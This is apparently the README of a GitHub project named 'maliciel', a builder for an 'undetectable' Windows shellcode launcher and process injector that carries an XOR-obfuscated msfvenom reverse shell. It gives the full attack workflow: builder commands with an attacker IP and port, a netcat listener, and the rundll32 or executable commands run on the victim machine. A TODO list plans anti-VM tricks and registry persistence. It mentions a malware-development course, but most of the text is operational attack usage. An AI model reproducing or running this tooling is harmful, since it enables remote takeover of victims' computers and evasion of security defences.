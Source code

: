 # maliciel

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/ip_a.png?raw=true)

run python script with flags:
```bash
python3 maliciel.py -l 10.241.7.33 -p 443 --build 1
```

![run python script](./screenshots/maliciel_dll_build.png?raw=true)

run netcat listener:
```bash
nc -lnvp 443
```

### then on victim machine (windows 10 x64):
run on powershell or cmd promt:
```cmd
rundll32 .\maliciel.dll, lnDspRKOhUnSxNJnPQlS
```

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/ip_a.png?raw=true)

run python script on linux (for example process `explorer.exe`):
```bash
python3 maliciel.py -l 10.241.7.33 -p 443 -e explorer.exe --build 2
```

![run python script](./screenshots/maliciel_pe_build.png?raw=true)

run netcat listener:
```bash
nc -lnvp 443
```

### then on victim machine run (windows 10 x64):
```cmd
.\maliciel.exe
```

or click (if `-m windows` param)

## 3. NT API injector
run python script on linux (for example process `mspaint.exe`):
```bash
python3 maliciel.py -l 10.241.7.33 -p 443 -e explorer.exe -m console --build 3
```

![enc and compile nt](./screenshots/maliciel_nt_build.png?raw=true)

run netcat listener:
```bash
nc -lnvp 443
```

### then on victim machine (windows 10 x64):
```cmd
.\maliciel.exe
```

## TODO
- [x] Compile injector in Kali linux
- [x] XOR + AES (other folder)
- [x] Calling Windows API functions by hash names
- [x] Find Kernel32 base via asm style
- [x] One python builder
- [ ] Anti-VM tricks
- [ ] Persistence via Windows Registry run keys
- [ ] Replace msfvenom shell to donut payload???

